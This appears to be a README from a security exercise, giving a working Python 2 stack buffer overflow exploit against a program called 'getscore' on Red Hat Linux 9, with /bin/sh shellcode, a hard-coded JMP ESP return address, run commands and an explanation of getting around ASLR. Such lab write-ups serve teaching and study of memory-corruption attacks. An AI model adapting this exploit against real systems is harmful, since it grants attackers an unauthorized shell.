 
## Exploit for RHL9

Exploit:

```python
#!/usr/bin/env python2

import sys

# exec /bin/sh
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# Before starting to overwrite the first byte of $eip, there are 138 bytes

def prep_buffer(addr_buffer):
    buf = 'A' * 138
    buf += addr_buffer
    buf += shellcode
    return buf

if __name__ == '__main__':
        buf = prep_buffer('\xc7\x76\x12\x42')
        # I got the previous address from gold-adresses.txt which is generated 
        # after executing bash-script.sh
        print buf
```

Run:

```
EGG=`./pythonexploit2.py`
```

Run:

```
./getscore a $EGG
```

### Exploit Explanation

RedHat 9 use ASLR by default when compiling with gcc. Therefore, we can't predict
were $esp will point to.

Same as in RHL8, we can fit 138 bytes in the buffer before overriding the first byte of
$eip. The four bytes entered after those 138 bytes will be stored in $eip. And the four
bytes after $eip, will be in $esp.

The plan is to put the address of a JMP ESP instruction in $eip and point $esp to the
shellcode. That way, the program will see that it needs to jump and execute whatever
$esp is pointing to.

The buffer will be filled with 138 "\x41". The following four bytes are “\xc7\x76\x12\x42”,
which is address 0x421276c7 and contains JMP ESP.
